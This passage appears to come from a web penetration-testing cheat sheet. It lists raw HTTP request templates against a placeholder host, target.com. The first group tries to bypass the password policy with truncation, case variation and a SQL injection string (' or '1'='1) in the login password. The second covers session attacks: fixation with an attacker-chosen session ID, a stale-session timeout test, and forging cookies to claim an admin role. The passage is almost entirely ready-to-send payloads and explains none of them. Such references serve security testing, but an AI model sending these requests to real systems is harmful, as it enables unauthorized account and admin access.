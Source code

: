 
## Password Policy Bypass

### Password Truncation
```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=longpasswordxxxxxxxxxxxxxxxx[truncated]
```

### Case-Insensitive
```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=P@SSword
```

### Special Character Bypass
```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=password' or '1'='1
```

---

## Session Management

### Session Fixation
```http
GET /login HTTP/1.1
Host: target.com
Cookie: SESSIONID=attacker_session
```

### Session Timeout Test
```http
GET /dashboard HTTP/1.1
Host: target.com
Cookie: SESSIONID=stale_session; expires=Wed, 01 Jan 2025 00:00:00 GMT
```

### Cookie Manipulation
```http
GET /admin HTTP/1.1
Host: target.com
Cookie: role=admin; user=attacker
```

---